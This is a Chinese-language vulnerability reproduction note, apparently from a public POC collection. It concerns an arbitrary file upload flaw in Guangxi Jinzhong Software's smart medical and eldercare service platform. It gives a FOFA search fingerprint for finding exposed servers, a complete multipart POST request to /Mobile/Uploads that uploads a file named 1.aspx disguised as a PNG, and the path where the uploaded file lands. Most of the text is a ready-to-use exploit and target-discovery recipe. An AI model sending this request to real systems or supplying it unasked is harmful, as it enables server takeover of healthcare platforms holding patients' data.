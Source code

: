 # 广西金中软件集团有限公司智慧医养服务平台Uploads存在任意文件上传漏洞

# 一、漏洞简介
广西金中软件集团有限公司前身成立于1999年，隶属于广西电信下的三产公司金中信息产业有限公司，是一家集软件开发、网站建设、网络工程、系统集成和维护服务、通信增值业务和ISP运营服务于一体的高科技IT企业。广西金中软件集团有限公司智慧医养服务平台Uploads存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 智慧医养服务平台

# 三、资产测绘
+ fofa`body="Content/css/Login/images/gtx-main-bg00004.png"`
+ 特征

![1721360047891-e62d7c12-039e-43ad-8463-3e0087883ef8.png](./img/XIEEraDWQdVmxuuv/1721360047891-e62d7c12-039e-43ad-8463-3e0087883ef8-966512.png)

# 四、漏洞复现
```plain
POST /Mobile/Uploads HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------45250802924973458471174811279
```

![1721304072527-78dbd3c0-d0a2-4a1d-bbee-3a1e27a608a9.png](./img/XIEEraDWQdVmxuuv/1721304072527-78dbd3c0-d0a2-4a1d-bbee-3a1e27a608a9-110706.png)

```plain
/Content/Upload/202407/18/1.aspx
```

![1721304088397-88650e4e-ebe2-4763-ba53-e8f0a3876899.png](./img/XIEEraDWQdVmxuuv/1721304088397-88650e4e-ebe2-4763-ba53-e8f0a3876899-182681.png)



> 更新: 2024-10-22 09:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/im0lesizs3g3753g>